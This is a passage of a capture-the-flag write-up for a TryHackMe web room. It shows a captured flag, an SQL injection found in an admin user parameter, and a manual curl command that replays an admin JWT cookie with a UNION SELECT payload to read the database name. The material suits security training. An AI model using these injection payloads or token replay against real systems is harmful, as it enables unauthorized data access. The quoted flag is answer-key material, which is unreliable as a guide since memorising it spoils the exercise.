 We are now connected as admin:

![admin_token.png](files/admin_token.png)

Flag: `THM{c37a63895910e478f28669b048c348d5}`

# What is flag 2? (User.txt)

## SQLi vulnerability

Analyzing the user listing, we notice that all links have the following form: http://10.10.4.48/admin?user=1

Replacing the numerical ID with a quote sign will trigger the following error:

~~~
Error: ER_PARSE_ERROR: You have an error in your SQL syntax; check the
manual that corresponds to your MySQL server version for the right syntax to
use near ''' at line 1
~~~ 

## Exploit the SQL injection

I failed to use sqlmap, as it failed with a 403 error code each time. Let's try the manual way:

### Database and tables

**Database identification:**

~~~
$ curl -s --cookie "token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiOjIsInVzZXJuYW1lIjoibWljaGFlbCIsImFkbWluIjp0cnVlLCJpYXQiOjE2MjE2NzQ1NjN9.SZDjFMO2_KIMpIoLWuD5Zt3fKggTM8AoTS7plL32uig" \
http://10.10.4.48/admin?user=`urlencode "0 UNION SELECT 1,database(),3,4"` | tail

      <h1 style="text-align: center">User 1</h1>
      <div>
          User marketplace <br />
          ID: 1 <br />
          Is administrator: true <br />
       <button onclick="this.disabled = true">Delete user</button>
      </div>
  </body>
</html>
~~~
